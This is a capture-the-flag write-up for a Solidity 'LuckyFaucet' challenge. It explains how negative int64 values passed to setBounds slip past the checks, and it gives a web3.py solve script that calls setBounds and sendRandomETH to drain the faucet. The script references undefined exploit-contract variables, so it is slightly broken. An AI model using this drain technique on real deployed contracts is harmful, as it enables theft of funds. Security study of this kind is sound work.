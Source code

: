 solved by Fire Lord of the West🔥

challenge files:
[LuckyFaucet.sol](./LuckyFaucet.sol)
[Setup.sol](./Setup.sol)

The challenge gave us a contract for an ETH faucet . 
After analyzing the code , we will see that there is one special functions called `setBound` 

```js
function setBounds(int64 _newLowerBound, int64 _newUpperBound) public {
        require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
        require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
        require(_newLowerBound <= _newUpperBound);
        // why? because if you don't need this much, pls lower the upper bound :)
        // we don't have infinite money glitch.
        upperBound = _newUpperBound;
        lowerBound = _newLowerBound;
    }
```

Those `require` statements seems insecure because it didn't take in account the scenario where a negative integer is passed into the functions . Which will cause an underflow and those `upperBound` and `lowerBound` value will be super large (urgh just like C)  . Resulting in  the `amountToSend` to be huge as well .  
So in conclusion , it's really easy to exploit  .  Invoke `setBounds`  to some negative number and then call `sendRandomEth ` 
I attached the exploit code as well . But i'm confident that this challenge can be solved with `cast ` - a CLI tool to interact with smart contracts .

here's the solve script

```py
'''
https://blog.solidityscan.com/weak-block-based-prng-in-solidity-f29e089de594
https://medium.com/coinmonks/attack-on-pseudo-random-number-generator-prng-used-in-cryptogs-an-ethereum-cve-2018-14715-f63a51ac2eb9
https://ad3sh.medium.com/hackthebox-magic-vault-challenge-walkthrough-4889ba11c6a6
blockhash(uint blockNumber) returns (bytes32): hash of the given block when blocknumber is one of the 256 most recent blocks; otherwise returns zero
'''

from web3 import Web3 
from eth_account import Account
import json
import os 
from web3 import Web3
import json
rpc_url= os.getenv("FOUNDRY_ETH_RPC_URL") 


private_key= os.getenv("PRIVATE_KEY") 
address = os.getenv("ADDRESS")

setup_contract_addr = os.getenv("SETUP_CONTRACT") 
setup_contract_abi =[
	{
		"inputs": [],
		"stateMutability": "payable",
		"type": "constructor"
	},
	{
		"inputs": [],
		"name": "TARGET",
		"outputs": [
			{
				"internalType": "contract LuckyFaucet",
				"name": "",
				"type": "address"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "isSolved",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			}
		],
		"stateMutability": "view",
		"type": "function"
	}
] 


target_contract_addr = os.getenv("INSTANCE_ADDRESS") 
target_contract_abi = [
	{
		"inputs": [],
		"stateMutability": "payable",
		"type": "constructor"
	},
	{
		"inputs": [],
		"name": "lowerBound",
		"outputs": [
			{
				"internalType": "int64",
				"name": "",
				"type": "int64"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "sendRandomETH",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			},
			{
				"internalType": "uint64",
				"name": "",
				"type": "uint64"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	},
	{
		"inputs": [
			{
				"internalType": "int64",
				"name": "_newLowerBound",
				"type": "int64"
			},
			{
				"internalType": "int64",
				"name": "_newUpperBound",
				"type": "int64"
			}
		],
		"name": "setBounds",
		"outputs": [],
		"stateMutability": "nonpayable",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "upperBound",
		"outputs": [
			{
				"internalType": "int64",
				"name": "",
				"type": "int64"
			}
		],
		"stateMutability": "view",
		"type": "function"
	}
]



# Initialize web3
web3 = Web3(Web3.HTTPProvider(rpc_url))
setup_contract = web3.eth.contract(address=setup_contract_addr,abi=setup_contract_abi)
target_contract = web3.eth.contract(address=target_contract_addr,abi=target_contract_abi)
exploit_contract = web3.eth.contract(address=exploit_contract_addr,abi=exploit_contract_abi)

# Init account 
account = Account.from_key(private_key)
web3.eth.default_account = address 



def _my_balance():
    bal = web3.eth.get_balance(address) 
    print("Wallet bal" ,bal);

def _callSendRandomETH(): 
    send,amountContractSend= target_contract.functions.sendRandomETH().call({'from':address})
    print("SendRandomEth()",amountContractSend)
    print("ETH sent ? ",send)
    return send ,amountContractSend

def sendRandomETH() : 
	target_contract.functions.sendRandomETH().transact({'from':address})

def _setBounds(): 
	target_contract.functions.setBounds(-100000000,-1).transact({'from':address})
	#Check bounds set 
	l =target_contract.functions.lowerBound().call()
	u =target_contract.functions.upperBound().call()
	print (f"Lower Bound : {l},  Upper bound : {u}") 
	return l , u 

# def multipleSend():
# 	exploit_con_bal = exploit_contract.functions.multipleSend().transact({'from':address})
# 	return exploit_con_bal 

def check_target_contract_balance():
	balance = web3.eth.get_balance(target_contract_addr)
	print("Target contract balance:", web3.from_wei(balance, 'ether'), "ETH")
	return web3.from_wei(balance,'ether')

def check_if_solved():
    is_solved = setup_contract.functions.isSolved().call()
    print("Is the Lucky Faucet contract solved?", is_solved)

if __name__=="__main__":
	_my_balance()
	check_target_contract_balance()
	_setBounds()
	_callSendRandomETH()	
	sendRandomETH()
	check_if_solved()
```
